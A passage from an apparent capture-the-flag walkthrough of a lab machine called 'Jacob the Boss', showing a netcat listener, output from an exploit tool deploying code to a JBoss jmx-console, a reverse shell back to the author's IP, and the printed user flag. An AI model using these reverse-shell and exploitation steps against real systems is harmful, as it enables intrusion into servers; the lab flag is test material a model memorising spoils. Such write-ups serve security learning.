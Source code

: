
## Reverse shell

At this stage, you can open a listener (`rlwrap nc -lvnp 4444`) and enter your local IP as `RHOST` and your listening port as `RPORT` (it actually should be `LHOST` and `LPORT` but whatever):

~~~
 * Please enter the IP address and tcp PORT of your listening server for try to get a REVERSE SHELL.
   OBS: You can also use the --cmd "command" to send specific commands to run on the server.
   IP Address (RHOST): 10.9.2.82
   Port (RPORT): 4444

 * The exploit code was successfully sent. Check if you received the reverse shell
   connection on your server or if your command was executed. 
   Type [ENTER] to continue...



 * Do you want to try to run an automated exploitation via "jmx-console" ?
   If successful, this operation will provide a simple command shell to execute 
   commands on the server..
   Continue only if you have permission!
   yes/NO? yes

 * Sending exploit code to http://jacobtheboss.box:8080. Please wait...

  * Successfully deployed code! Starting command shell. Please wait...

~~~

Now we have a shell as user `jacob`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Jacob_the_Boss/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.2.82] from (UNKNOWN) [10.10.183.234] 46050
bash: no job control in this shell
[jacob@jacobtheboss /]$ id
uid=1001(jacob) gid=1001(jacob) groups=1001(jacob) context=system_u:system_r:initrc_t:s0
~~~

## User flag

Now we can read th user flag in `jacob`'s home directory:

~~~
[jacob@jacobtheboss /]$ cd /home/jacob
[jacob@jacobtheboss ~]$ ls
user.txt
[jacob@jacobtheboss ~]$ cat user.txt
f4d491f280de360cc49e26ca1587cbcc
~~~
